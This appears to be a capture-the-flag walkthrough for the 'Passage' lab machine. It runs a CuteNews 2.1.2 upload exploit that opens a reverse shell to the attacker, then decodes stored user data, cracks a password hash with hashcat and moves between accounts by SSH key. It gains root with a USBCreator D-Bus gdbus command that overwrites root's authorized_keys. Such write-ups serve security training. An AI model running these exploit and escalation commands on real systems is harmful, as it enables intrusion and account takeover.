

# Passage

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Linux 3.13 (93%), DD-WRT v3.0 (Linux 4.4.2) (93%), Linux 4.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- no path recon: **Fail2Ban**

  - Fail2Ban is an open-source intrusion prevention software designed to protect Linux-based servers from various types of automated and manual attacks. Its core function is to monitor log files on the server to detect malicious behavior such as repeated login failures and other typical automated breach attempts and to automatically take protective measures based on configured rules, usually by updating firewall rules to block further access from the attacking source IP address.
  - no brute force scanner like gobuster, sqlmap


- email

```console
└─╼$ curl http://10.10.10.206/index.php | grep @ | awk -F "\"" '{print $4}' | sed "s/.*://g" | sort | uniq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11085    0 11085    0     0   100k      0 --:--:-- --:--:-- --:--:--  101k
kim@example.com
nadav@passage.htb
paul@passage.htb
sid@example.com
```

- http pages
  - `http://10.10.10.206/CuteNews/rss.php`
  - `http://10.10.10.206/CuteNews/`

## Foothold

### CVE-2019-11447: CuteNews RCE



- Powered by **CuteNews 2.1.2** © 2002–2024 CutePHP:
  - [CutePHP About / Information](https://cutephp.com/about/)
  - [CuteNews/cutenews-2.0: Cutenews 2.0 Repositary (github.com)](https://github.com/CuteNews/cutenews-2.0)
- Register a user: `qwe:imqwe123:qwe@passage.htb`
- CVE Exploit Code:
  - [ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE: Exploit Code for CVE-2019-11447 aka CuteNews 2.1.2 Avatar upload RCE (Authenticated) (github.com)](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE)
  - [thewhiteh4t/cve-2019-11447: CutePHP Cute News 2.1.2 RCE PoC (github.com)](https://github.com/thewhiteh4t/cve-2019-11447)

```console
└─╼$ python cve-2019-11447.py -t 10.10.10.206 -u qwe -p imqwe123 -lh 10.10.14.14 -lp 1234 -f shell

--------------------------------------
--- CVE-2019-11447 -------------------
--- CuteNews Arbitrary File Upload ---
--- CutePHP CuteNews 2.1.2 -----------
--------------------------------------

[>] Found By : Akkus       [ https://twitter.com/ehakkus     ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.10.206/CuteNews/index.php
[>] Username : qwe
[>] Password : imqwe123

[!] Logging in...
[+] Logged In!
[+] Loading Profile...
[+] Searching Signatures...
[!] Uploading Payload...
[+] Loading Profile...
[+] Searching Avatar URL...
[*] URL : http://passage.htb/CuteNews/uploads/avatar_qwe_shell.php
[!] Payload will trigger in 5 seconds...
[!] Starting Listner...
[+] Trying to bind to :: on port 1234: Done
[+] Waiting for connections on :::1234: Got connection from ::ffff:10.10.10.206 on port 41070
[*] Switching to interactive mode
bash: cannot set terminal process group (1669): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ $ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@passage:/var/www/html/CuteNews/uploads$ $ uname -a
uname -a
Linux passage 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@passage:/var/www/html/CuteNews/uploads$ $ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f9:aa brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.206/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:f9aa/64 scope global mngtmpaddr dynamic
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:feb9:f9aa/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> paul

- enum CuteNews user credentials => try to find the interactions with db

- check source code for CuteNews 2.1.2 in GitHub


- find user info

```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls
09.php  21.php  5d.php  76.php  8f.php  a9.php  d4.php  fc.php
0a.php  32.php  66.php  77.php  97.php  b0.php  d5.php  lines
16.php  52.php  6e.php  7a.php  a8.php  c8.php  d6.php  users.txt

www-data@passage:/var/www/html/CuteNews/cdata/users$ cat 09.php
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
```

- the php file stores base64 encoded text of serialized user info

```console
└─╼$ echo 'YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319' | base64 -d
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
```

- base64 decode all text and discover some hash values => hashcat to crack

```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat *.php | sed 'G' | sed 's/<?php.*?>//g' | sort | uniq
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzA0NztzOjU6ImFkbWluIjt9fQ==
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzI4MTtzOjk6InNpZC1tZWllciI7fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzIzNjtzOjEwOiJwYXVsLWNvbGVzIjt9fQ==
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzMwOTtzOjk6ImtpbS1zd2lmdCI7fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODkxMDg5NjtzOjY6ImhhY2tlciI7fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTcwNjM0MTU4NztzOjM6InF3ZSI7fX0=
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo1OiJhZG1pbiI7YTo4OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMDQ3IjtzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MzoiYWNsIjtzOjE6IjEiO3M6NToiZW1haWwiO3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjQ6InBhc3MiO3M6NjQ6IjcxNDRhOGI1MzFjMjdhNjBiNTFkODFhZTE2YmUzYTgxY2VmNzIyZTExYjQzYTI2ZmRlMGNhOTdmOWUxNDg1ZTEiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3OTg4IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJraW0tc3dpZnQiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzMwOSI7czo0OiJuYW1lIjtzOjk6ImtpbS1zd2lmdCI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToia2ltQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiS2ltIFN3aWZ0IjtzOjQ6InBhc3MiO3M6NjQ6ImY2NjlhNmY2OTFmOThhYjA1NjIzNTZjMGNkNWQ1ZTdkY2RjMjBhMDc5NDFjODZhZGNmY2U5YWYzMDg1ZmJlY2EiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3MDk2IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIzIjt9fX0=
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJzaWQtbWVpZXIiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzI4MSI7czo0OiJuYW1lIjtzOjk6InNpZC1tZWllciI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToic2lkQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiU2lkIE1laWVyIjtzOjQ6InBhc3MiO3M6NjQ6IjRiZGQwYTBiYjQ3ZmM5ZjY2Y2JmMWE4OTgyZmQyZDM0NGQyYWVjMjgzZDFhZmFlYmI0NjUzZWMzOTU0ZGZmODgiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg1NjQ1IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTU5MjQ4NTU1NiI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19
YToxOntzOjQ6Im5hbWUiO2E6MTp7czozOiJxd2UiO2E6MTE6e3M6MjoiaWQiO3M6MTA6IjE3MDYzNDE1ODciO3M6NDoibmFtZSI7czozOiJxd2UiO3M6MzoiYWNsIjtzOjE6IjQiO3M6NToiZW1haWwiO3M6MTU6InF3ZUBwYXNzYWdlLmh0YiI7czo0OiJuaWNrIjtzOjM6InR3aCI7czo0OiJwYXNzIjtzOjY0OiJiZjVkNWM3YjlmZjc5MGMyZWZjMGNkNzU2YWY1NTE5NGNiYTA5NjVmMzM3NmVmNWI5MjhiZjQxYjhlMjRkMjFhIjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6Imx0cyI7czoxMDoiMTcwNjM0NDU2NyI7czo0OiJtb3JlIjtzOjQ6IlRqcz0iO3M6NjoiYXZhdGFyIjtzOjIwOiJhdmF0YXJfcXdlX3NoZWxsLnBocCI7czo2OiJlLWhpZGUiO3M6MDoiIjt9fX0=
YToxOntzOjQ6Im5hbWUiO2E6Mjp7czo2OiJlZ3JlNTUiO2E6MTE6e3M6MjoiaWQiO3M6MTA6IjE1OTg4Mjk4MzMiO3M6NDoibmFtZSI7czo2OiJlZ3JlNTUiO3M6MzoiYWNsIjtzOjE6IjQiO3M6NToiZW1haWwiO3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo0OiJuaWNrIjtzOjY6ImVncmU1NSI7czo0OiJwYXNzIjtzOjY0OiI0ZGIxZjBiZmQ2M2JlMDU4ZDRhYjA0ZjE4ZjY1MzMxYWMxMWJiNDk0YjU3OTJjNDgwZmFmN2ZiMGM0MGZhOWNjIjtzOjQ6Im1vcmUiO3M6NjA6IllUb3lPbnR6T2pRNkluTnBkR1VpTzNNNk1Eb2lJanR6T2pVNkltRmliM1YwSWp0ek9qQTZJaUk3ZlE9PSI7czozOiJsdHMiO3M6MTA6IjE1OTg5MDY4ODEiO3M6MzoiYmFuIjtzOjE6IjAiO3M6NjoiYXZhdGFyIjtzOjI2OiJhdmF0YXJfZWdyZTU1X3lreG5hY3B0LnBocCI7czo2OiJlLWhpZGUiO3M6MDoiIjt9czo2OiJoYWNrZXIiO2E6MTE6e3M6MjoiaWQiO3M6MTA6IjE1OTg5MTA4OTYiO3M6NDoibmFtZSI7czo2OiJoYWNrZXIiO3M6MzoiYWNsIjtzOjE6IjQiO3M6NToiZW1haWwiO3M6MjA6ImhhY2tlckBoYWNrZXIuaGFja2VyIjtzOjQ6Im5pY2siO3M6NjoiaGFja2VyIjtzOjQ6InBhc3MiO3M6NjQ6ImU3ZDM2ODU3MTU5Mzk4NDI3NDljYzI3YjM4ZDBjY2I5NzA2ZDRkMTRhNTMwNGVmOWVlZTA5Mzc4MGVhYjVkZjkiO3M6MzoibHRzIjtzOjEwOiIxNTk4OTEwOTExIjtzOjM6ImJhbiI7czoxOiIwIjtzOjQ6Im1vcmUiO3M6NjA6IllUb3lPbnR6T2pRNkluTnBkR1VpTzNNNk1Eb2lJanR6T2pVNkltRmliM1YwSWp0ek9qQTZJaUk3ZlE9PSI7czo2OiJhdmF0YXIiO3M6MjY6ImF2YXRhcl9oYWNrZXJfanB5b3lza3QucGhwIjtzOjY6ImUtaGlkZSI7czowOiIiO319fQ==
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImtpbUBleGFtcGxlLmNvbSI7czo5OiJraW0tc3dpZnQiO319
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6InF3ZUBwYXNzYWdlLmh0YiI7czozOiJxd2UiO319
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6InNpZEBleGFtcGxlLmNvbSI7czo5OiJzaWQtbWVpZXIiO319
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjU6ImFkbWluIjt9fQ==
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MjA6ImhhY2tlckBoYWNrZXIuaGFja2VyIjtzOjY6ImhhY2tlciI7fX0=

└─╼$ while read line; do echo "$line" | base64 -d; echo ""; done < text
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:2:"id";a:1:{i:1598910896;s:6:"hacker";}}
a:1:{s:2:"id";a:1:{i:1706341587;s:3:"qwe";}}
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:3:"qwe";a:11:{s:2:"id";s:10:"1706341587";s:4:"name";s:3:"qwe";s:3:"acl";s:1:"4";s:5:"email";s:15:"qwe@passage.htb";s:4:"nick";s:3:"twh";s:4:"pass";s:64:"bf5d5c7b9ff790c2efc0cd756af55194cba0965f3376ef5b928bf41b8e24d21a";s:3:"ban";s:1:"0";s:3:"lts";s:10:"1706344567";s:4:"more";s:4:"Tjs=";s:6:"avatar";s:20:"avatar_qwe_shell.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:4:"name";a:2:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598906881";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_ykxnacpt.php";s:6:"e-hide";s:0:"";}s:6:"hacker";a:11:{s:2:"id";s:10:"1598910896";s:4:"name";s:6:"hacker";s:3:"acl";s:1:"4";s:5:"email";s:20:"hacker@hacker.hacker";s:4:"nick";s:6:"hacker";s:4:"pass";s:64:"e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9";s:3:"lts";s:10:"1598910911";s:3:"ban";s:1:"0";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:6:"avatar";s:26:"avatar_hacker_jpyoyskt.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:5:"email";a:1:{s:15:"qwe@passage.htb";s:3:"qwe";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:20:"hacker@hacker.hacker";s:6:"hacker";}}
```

- hash values:
  - nadav@passage.htb - `7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1`
  - paul@passage.htb - `e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd`

```console
└─╼$ hashcat -m 1400 -a 0 hash /usr/share/wordlists/rockyou.txt --show
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```

- `su paul` with password `atlanta1` to successfully login

### paul -> nadav

- paul's authorized_keys also blongs to nadav


- laterally move to nadav using ssh

```console
└─╼$ ssh -i id_rsa nadav@$IP
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

### nadav -> root

- `/.viminfo` is not empty and reable => enum vim

```console
nadav@passage:~$ ls -al
total 120
drwxr-x--- 17 nadav nadav 4096 Jan 26 08:52 .
drwxr-xr-x  4 root  root  4096 Jul 21  2020 ..
----------  1 nadav nadav    0 Jul 21  2020 .bash_history
-rw-r--r--  1 nadav nadav  220 Jun 18  2020 .bash_logout
-rw-r--r--  1 nadav nadav 3822 Jul 21  2020 .bashrc
drwx------ 12 nadav nadav 4096 Jul 21  2020 .cache
drwx------ 14 nadav nadav 4096 Jun 18  2020 .config
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Desktop
-rw-r--r--  1 nadav nadav   25 Jun 18  2020 .dmrc
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Documents
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Downloads
-rw-r--r--  1 nadav nadav 8980 Jun 18  2020 examples.desktop
drwx------  2 nadav nadav 4096 Jun 18  2020 .gconf
drwx------  3 nadav nadav 4096 Jan 26 08:52 .gnupg
-rw-------  1 nadav nadav 4176 Jan 26 08:52 .ICEauthority
drwx------  3 nadav nadav 4096 Jun 18  2020 .local
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Music
drwxr-xr-x  2 nadav nadav 4096 Aug 31  2020 .nano
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Pictures
-rw-r--r--  1 nadav nadav  655 Jun 18  2020 .profile
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Public
drwx------  2 nadav nadav 4096 Jul 21  2020 .ssh
-rw-r--r--  1 nadav nadav    0 Jun 18  2020 .sudo_as_admin_successful
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Templates
drwxr-xr-x  2 nadav nadav 4096 Jun 18  2020 Videos
-rw-------  1 nadav nadav 1402 Jul 21  2020 .viminfo
-rw-------  1 nadav nadav  103 Jan 26 08:52 .Xauthority
-rw-------  1 nadav nadav   82 Jan 26 08:52 .xsession-errors
-rw-------  1 nadav nadav 1404 Feb  5  2021 .xsession-errors.old
```

```
nadav@passage:~$ cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
'1  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# Jumplist (newest first):
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
        "       12      7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0
```

- enum **USBCreator** service
  - The file `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf` is a D-Bus configuration file used to define permissions for the D-Bus service `com.ubuntu.USBCreator`. D-Bus is an inter-process communication (IPC) system that allows applications to communicate with one another. Configuration files located in the `/etc/dbus-1/system.d/` directory typically define policies for the system-wide message bus.
  - `com.ubuntu.USBCreator` is a service in the Ubuntu system used for creating bootable USB drives. This configuration file specifies which users or groups can access this service and the actions they are permitted to perform.

```console
nadav@passage:~$ cat /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
<!DOCTYPE busconfig PUBLIC
 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">
<busconfig>

  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.ubuntu.USBCreator"/>
  </policy>

  <!-- Allow anyone to invoke methods (further constrained by
       PolicyKit privileges -->
  <policy context="default">
    <allow send_destination="com.ubuntu.USBCreator"
           send_interface="com.ubuntu.USBCreator"/>
    <allow send_destination="com.ubuntu.USBCreator"
           send_interface="org.freedesktop.DBus.Introspectable"/>
    <allow send_destination="com.ubuntu.USBCreator"
           send_interface="org.freedesktop.DBus.Properties"/>
  </policy>

</busconfig>
```

- **D-BUS USBCreator Priv Esca**: overwrite arbitrary files with arbitrary content as root
  - [USBCreator D-Bus Privilege Escalation in Ubuntu Desktop (paloaltonetworks.com)](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
  - [USBCreator D-Bus Privilege Escalation for ssh (github.com)](https://gist.github.com/noobpk/a4f0a029488f37939c4df6e20472501d)

> A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root - without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root. The issue was resolved in June when Ubuntu [patched](https://bugs.launchpad.net/ubuntu/+source/policykit-desktop-privileges/+bug/1832337) the relevant packages in response to a vulnerability disclosure from Unit 42.
>

remote host

- copy nadav's pub keys into root's ssh authorized_keys file since nadav's pub and private keys are already known

```console
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true                        
()
```

local host

- ssh root using nadav's private key

```console
└─╼$ ssh -i id_rsa root@$IP
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# uname -a
Linux passage 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linu
```

## Exploit Chain

port scan -> fail2ban -> no brute force -> emails and usernames -> CuteNews RCE -> www-data shell -> CuteNews source code audit -> db interactions operations: find user creds -> hash values -> crack paul's password -> su -> paul shell -> ssh key: paul = nadav -> laterally move to nadav shell -> viminfo -> USBCreator service -> overwrite arbitrary file -> overwrite root's ssh authorized_keys -> root shell
